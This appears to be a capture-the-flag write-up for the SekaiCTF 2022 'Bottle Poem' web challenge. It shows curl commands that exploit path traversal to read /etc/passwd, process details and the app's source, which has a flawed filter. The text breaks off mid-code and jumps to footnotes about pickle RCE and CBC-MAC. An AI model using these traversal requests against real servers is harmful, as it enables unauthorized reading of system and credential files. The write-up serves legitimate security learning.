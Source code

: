 +++
title = "Writeup: SekaiCTF 2022"
publishDate = "2022-10-02T14:53:00+00:00"
math = true
+++

- Website: https://ctf.sekai.team/
- CTFTime: https://ctftime.org/event/1619

## Bottle Poem (Web)

> Come and read poems in the bottle.
>
> No bruteforcing is required to solve this challenge. Please do not use scanner
> tools. Rate limiting is applied. Flag is executable on server.
>
> Author: bwjy
>
> `http://bottle-poem.ctf.sekai.team`

Opening the link in a browser shows a simple index page with links to poems:

- `http://bottle-poem.ctf.sekai.team/show?id=spring.txt`
- `http://bottle-poem.ctf.sekai.team/show?id=Auguries_of_Innocence.txt`
- `http://bottle-poem.ctf.sekai.team/show?id=The_tiger.txt`

Opening any of them returns a simple text file with a poem. The URL seems
suspicious, so let's try reading arbitrary files:

```
$ curl http://bottle-poem.ctf.sekai.team/show?id=/etc/passwd
root:x:0:0:root:/root:/bin/bash
[...]
```

Great! But this doesn't seem to be too useful on its own, no flag file is
immediately available. It also seems to refuse to read executables like
`/bin/bash`. The hint says that the flag is "executable", which suggests
we are supposed execute commands, not just read arbitrary files.

Moving on, let's get some more details on the webserver process itself:

```
$ curl http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cmdline -o- | tr \\0 \\n
python3
-u
/app/app.py

$ curl http://bottle-poem.ctf.sekai.team/show?id=/app/app.py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
```

[^pickle-rce-ref]: Copied from https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd
[^wiki-cbc-length]: https://en.wikipedia.org/wiki/CBC-MAC#Security_with_fixed_and_variable-length_messages
